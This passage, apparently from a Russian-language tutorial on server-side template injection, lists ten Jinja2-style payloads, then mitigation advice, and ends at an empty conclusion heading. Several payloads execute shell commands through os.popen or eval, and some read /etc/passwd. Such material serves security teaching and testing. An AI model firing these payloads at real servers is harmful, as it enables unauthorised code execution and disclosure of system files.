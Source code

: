 1. ‘`${{<%[%'"}}(cmd){{%]'}}`‘
2. ‘`{{7*7}}`‘
3. ‘`{{ ''.__class__.__mro__[1].__subclasses__()[69].__init__.__globals__['os'].popen('id').read() }}`‘
4. ‘`{{config.__class__.__init__.__globals__['os'].popen('id').read()}}`‘
5. ‘`{{"".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read()}}`‘
6. ‘`{{ ''.__class__.__base__.__subclasses__()[59]('id').read() }}`‘
7. ‘`{{().__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()}}`‘
8. ‘`{{ ''.__class__.__mro__[1].__subclasses__()[0].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("id").read()') }}`‘
9. ‘`{{self}}`‘
10. ‘`{{this}}`‘

Обратите внимание, что некоторые из этих полезных нагрузок могут потребовать модификации в зависимости от конкретного тестируемого приложения или платформы, и их следует использовать только в контролируемых средах тестирования с соответствующим разрешением.

### Смягчение последствий и способы защиты от внедрения шаблонов на стороне сервера

Для защиты от внедрения шаблонов на стороне сервера (SSTI) можно использовать несколько методов смягчения последствий. Вот некоторые из наиболее эффективных:

1. Избегайте динамического рендеринга шаблонов: Один из способов предотвратить атаки SSTI - это избегать динамического рендеринга шаблонов. Вместо этого используйте статические шаблоны, которые не допускают динамического ввода.
    
2. Проверка и очистка входных данных: проверка и очистка пользовательских входных данных для предотвращения внедрения вредоносного кода в шаблоны. Используйте методы проверки входных данных, такие как внесение в белый список, черный список или регулярные выражения, чтобы отфильтровать опасные входные данные.
    
3. Кодирование вывода: кодируйте все введенные пользователем данные перед их отображением в шаблоне, чтобы предотвратить выполнение вредоносного кода. Используйте методы кодирования вывода, такие как кодирование сущности HTML или кодирование URL.
    
4. Используйте политику безопасности содержимого (CSP): политика безопасности содержимого может использоваться для ограничения источников, из которых может быть загружено содержимое. Ограничивая источники контента, это может помочь предотвратить внедрение злоумышленниками вредоносного кода.
    
5. Обновляйте программное обеспечение: обновляйте программное обеспечение и платформы с помощью последних исправлений безопасности, чтобы предотвратить использование известных уязвимостей.
    
6. Используйте брандмауэр веб-приложений (WAF): WAF можно использовать для мониторинга входящего трафика, обнаружения и блокирования подозрительных запросов, которые могут указывать на атаку SSTI.
    
7. Просвещение пользователей: Информируйте пользователей об опасностях атак SSTI и поощряйте их сообщать о любых подозрительных действиях.
    

Важно отметить, что эти методы смягчения последствий не являются надежными, и злоумышленники все еще могут найти способы обойти их. Поэтому важно регулярно проверять свои приложения на наличие уязвимостей и быть в курсе последних рекомендаций по обеспечению безопасности.

### Заключение
